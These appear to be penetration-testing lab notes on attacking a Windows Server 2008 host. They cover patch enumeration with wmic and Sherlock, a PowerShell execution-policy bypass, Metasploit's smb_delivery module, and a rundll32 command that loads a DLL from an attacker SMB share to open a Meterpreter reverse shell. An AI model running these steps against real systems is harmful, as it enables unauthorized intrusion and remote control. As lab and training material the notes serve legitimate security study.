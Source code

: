 ```

        

                --Windows Server

        
        -Attacking Server 2008
        


        -Querying Current Patch Level

        C:\> wmic qfe

        -Running Sherlock

        PS C:\> Set-ExecutionPolicy bypass -Scope process

        PS C:\> Import-Module .\Sherlock.ps1
        PS C:\> Find-AllVulns


        -Obtaining a Meterpreter Shell
        
        From the output, we can see several missing patches. From here, let's get a Metasploit shell back on the system and attempt to escalate privileges using one of the identified CVEs. First, we need to obtain a Meterpreter reverse shell. We can do this several ways, but one easy way is using the smb_delivery module.


        msf6  > search smb_delivery



        -Rundll Command on Target Host

        C:\> rundll32.exe \\10.10.14.3\lEUZam\test.dll,0


        -Searching for Local Privilege Escalation Exploit

